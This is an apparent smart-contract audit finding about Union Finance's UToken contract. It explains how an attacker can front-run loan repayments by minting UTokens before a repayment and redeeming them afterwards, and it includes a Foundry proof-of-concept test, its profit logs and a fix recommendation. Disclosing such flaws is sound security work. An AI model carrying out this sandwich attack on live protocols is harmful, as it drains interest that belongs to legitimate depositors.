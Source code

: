 ozoooneth

unlabeled

# The `exchangeRateStored()` function allows front-running on repayments

## Summary

The `exchangeRateStored()` function allows to perform front-running attacks when a repayment is being executed.  

## Vulnerability Detail

Since `_repayBorrowFresh()` increases `totalRedeemable` value which affects in the final exchange rate calculation used in functions such as `mint()` and `redeem()`, an attacker could perform a front-run to any repayment by minting `UTokens` beforehand, and redeem these tokens after the front-run repayment. In this situation, the attacker would always be obtaining profits since `totalRedeemable` value is increased after every repayment.

### Proof of Concept

```solidity
    function increaseTotalSupply(uint256 _amount) private {
        daiMock.mint(address(this), _amount);
        daiMock.approve(address(uToken), _amount);
        uToken.mint(_amount);
    }

    function testMintRedeemSandwich() public {
        increaseTotalSupply(50 ether);

        vm.prank(ALICE);
        uToken.borrow(ALICE, 50 ether);
        uint256 borrowed = uToken.borrowBalanceView(ALICE);

        vm.roll(block.number + 500);

        vm.startPrank(BOB);
        daiMock.approve(address(uToken), 100 ether);
        uToken.mint(100 ether);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        uint256 currExchangeRate = uToken.exchangeRateStored();
        console.log("[1] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(ALICE);
        uint256 interest = uToken.calculatingInterest(ALICE);
        uint256 repayAmount = borrowed + interest;

        daiMock.approve(address(uToken), repayAmount);
        uToken.repayBorrow(ALICE, repayAmount);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] ALICE balance:", uToken.balanceOf(ALICE));
        console.log("[DAI]    ALICE balance:", daiMock.balanceOf(ALICE));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[2] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(BOB);
        uToken.redeem(uToken.balanceOf(BOB), 0);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[3] Exchange rate:", currExchangeRate);
    }
```

### Result

```bash
[PASS] testMintRedeemSandwich() (gas: 560119)
Logs:

  [UToken] Total supply: 150000000000000000000
  [UToken] BOB balance: 100000000000000000000
  [DAI]    BOB balance: 0
  [1] Exchange rate: 1000000000000000000

  [UToken] Total supply: 150000000000000000000
  [UToken] ALICE balance: 0
  [DAI]    ALICE balance: 99474750000000000000
  [2] Exchange rate: 1000084166666666666

  [UToken] Total supply: 50000000000000000000
  [UToken] BOB balance: 0
  [DAI]    BOB balance: 100008416666666666600
  [3] Exchange rate: 1000084166666666668
```

## Impact

An attacker could always get profits from front-running repayments by taking advantage of `exchangeRateStored()` calculation before a repayment is made.

## Code Snippet

[exchangeRateStored()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L467-L470)

```solidity
function exchangeRateStored() public view returns (uint256) {
    uint256 totalSupply_ = totalSupply();
    return totalSupply_ == 0 ? initialExchangeRateMantissa : (totalRedeemable * WAD) / totalSupply_;
}
```

[_repayBorrowFresh()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L657)

```solidity
function _repayBorrowFresh(address payer, address borrower, uint256 amount, uint256 interest) internal {
    if (getBlockNumber() != accrualBlockNumber) revert AccrueBlockParity();
    uint256 borrowedAmount = borrowBalanceStoredInternal(borrower);
    uint256 repayAmount = amount > borrowedAmount ? borrowedAmount : amount;
    if (repayAmount == 0) revert AmountZero();

    uint256 toReserveAmount;
    uint256 toRedeemableAmount;

    if (repayAmount >= interest) {
        // If the repayment amount is greater than the interest (min payment)
        bool isOverdue = checkIsOverdue(borrower);

        // Interest is split between the reserves and the uToken minters based on
        // the reserveFactorMantissa When set to WAD all the interest is paid to teh reserves.
        // any interest that isn't sent to the reserves is added to the redeemable amount
        // and can be redeemed by uToken minters.
        toReserveAmount = (interest * reserveFactorMantissa) / WAD;
        toRedeemableAmount = interest - toReserveAmount;

        // Update the total borrows to reduce by the amount of principal that has
        // been paid off
        totalBorrows -= (repayAmount - interest);

        // Update the account borrows to reflect the repayment
        accountBorrows[borrower].principal = borrowedAmount - repayAmount;
        accountBorrows[borrower].interest = 0;

        // Call update locked on the userManager to lock this borrowers stakers. This function
        // will revert if the account does not have enough vouchers to cover the repay amount. ie
        // the borrower is trying to repay more than is locked (owed)
        IUserManager(userManager).updateLocked(borrower, (repayAmount - interest).toUint96(), false);

        if (isOverdue) {
            // For borrowers that are paying back overdue balances we need to update their
            // frozen balance and the global total frozen balance on the UserManager
            IUserManager(userManager).onRepayBorrow(borrower);
        }

        if (getBorrowed(borrower) == 0) {
            // If the principal is now 0 we can reset the last repaid block to 0.
            // which indicates that the borrower has no outstanding loans.
            accountBorrows[borrower].lastRepay = 0;
        } else {
            // Save the current block number as last repaid
            accountBorrows[borrower].lastRepay = getBlockNumber();
        }
    } else {
        // For repayments that don't pay off the minimum we just need to adjust the
        // global balances and reduce the amount of interest accrued for the borrower
        toReserveAmount = (repayAmount * reserveFactorMantissa) / WAD;
        toRedeemableAmount = repayAmount - toReserveAmount;
        accountBorrows[borrower].interest = interest - repayAmount;
    }

    totalReserves += toReserveAmount;
    totalRedeemable += toRedeemableAmount;

    accountBorrows[borrower].interestIndex = borrowIndex;

    // Transfer underlying token that have been repaid and then deposit
    // then in the asset manager so they can be distributed between the
    // underlying money markets
    IERC20Upgradeable(underlying).safeTransferFrom(payer, address(this), repayAmount);
    _depositToAssetManager(repayAmount);

    emit LogRepay(payer, borrower, repayAmount);
}
```

[Usage in `mint()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L714)

[Usage in `redeem()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L742)

## Tool used

Manual Review

## Recommendation

An approach could be implementing TWAP in order to make front-running unprofitable in this situation.